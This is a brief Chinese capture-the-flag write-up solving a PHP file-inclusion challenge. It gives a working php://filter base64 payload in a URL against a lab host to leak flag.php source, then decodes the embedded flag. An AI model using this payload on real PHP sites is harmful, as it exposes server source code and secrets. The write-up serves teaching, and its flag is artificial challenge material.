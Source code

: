 # 01.你能看到这个文件嘛？

1. 题目问能否“看到”这个文件，故从“看看”这个文件内容着手。

2. 构造 payload ：`file=php://filter/convert.base64-encode/resource=flag` ，即访问 URL ：`http://192.168.1.1:8083/ctf/8/index.php?file=php://filter/convert.base64-encode/resource=flag` ，可以得到 `flag.php` 经 *base64编码* 后的源代码。

3. 进行 *[base64解码](../../misc/base64.md)* 后，可见源代码中有一句：

   ```php
   $flag = urldecode(base64_decode('MGNlZTdhMTZkMzUyMDM4NDdiMjJiNzAwODZmM2Q3OTA='));
   ```

4. 在php运行环境中执行上述代码即得答案。
